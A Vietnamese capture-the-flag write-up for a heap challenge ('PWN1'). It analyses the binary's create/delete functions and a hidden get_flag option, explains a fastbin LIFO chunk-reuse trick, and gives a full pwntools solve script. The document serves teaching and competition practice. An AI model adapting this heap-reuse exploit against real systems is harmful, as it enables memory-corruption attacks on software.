






# PWN1

## Overview

Bây giờ ta sẽ xem qua tổng quan của chương trình trong ida trước:






Chương trình có 2 hàm để create heap và delete heap:



Ở trong hàm `create_heap`, chương trình cho phép ta nhập kích thước, sau đó tạo 2 chunk: 1 chunk để ta nhập `data`, chunk còn lại để lưu offset của chunk ta nhập `data` và chunk này được lưu địa chỉ ở `ptr`.



Hàm `del_heap` sẽ free 2 chunk trên đồng thời set con trỏ về 0 để tránh `uaf`


Để ý ta thấy chương trình có tận 4 option trong khi ở trong menu chỉ có 3. Option thứ 4 là hàm `get_flag`:



Để thỏa mãn điều kiện lấy flag thì giá trị tại con trỏ kia phải bằng `0xABCDEF`



Để ý thì thấy đây là phần tử thứ 3 của `ptr`. Tuy nhiên chunk được lưu ở `ptr` không phải là chunk ta có thể nhập dữ liệu được, vậy làm sao để set giá trị thỏa mãn với yêu cầu của hàm `get_flag` ?

## Exploit

Có một số thứ ta cần để ý như sau:

- `create_heap` :
    
    - Cho phép tự chọn size chunk ta nhập dữ liệu vào
    - Tạo chunk lưu địa chỉ trước, rồi đến chunk nhập dữ liệu sau

- `delete_heap`:
    - Free chunk địa chỉ trước, rồi đến chunk dữ liệu
    - Không set content trong các chunk về 0

- Từ những dữ kiện trên, mình có ý tưởng như sau:   
    - Tạo chunk lưu địa chỉ và chunk nhập dữ liệu có kích thước bằng nhau
    - Nhập dữ liệu sao cho chunk đó thỏa mãn với yêu cầu của `get_flag`
    - Delete heap => 2 chunk đều vào fastbin chung 1 size list
    - Vì fastbin có đặc tính là LIFO => khi malloc lại chunk chứa địa chỉ sẽ sử dụng lại chính chunk nhập dữ liệu đã free trước đó
    - Lúc này kiểm tra thì sẽ thỏa điều kiện

### Solve script:

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./pwn1_ff_patched")
libc = ELF("./libc.2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe

info = lambda msg: log.info(msg)
s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* 0x0000000000400CC5
        b* 0x00000000004009C1
        c
        ''')
        sleep(1)


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()


def create_heap(payload):
    sla(">",b'1')
    sla("Input size:",b'16')
    sa("Input data:",payload)  
def delete_heap(idx):
    sla(">",b'2')
    slna("Input index:",idx)
    

payload = p64(0)
payload += p64(0xABCDEF)


create_heap(payload)
create_heap(payload)
create_heap(payload)
delete_heap(2)
create_heap(payload)
sla(">",b'4')
p.interactive()

```

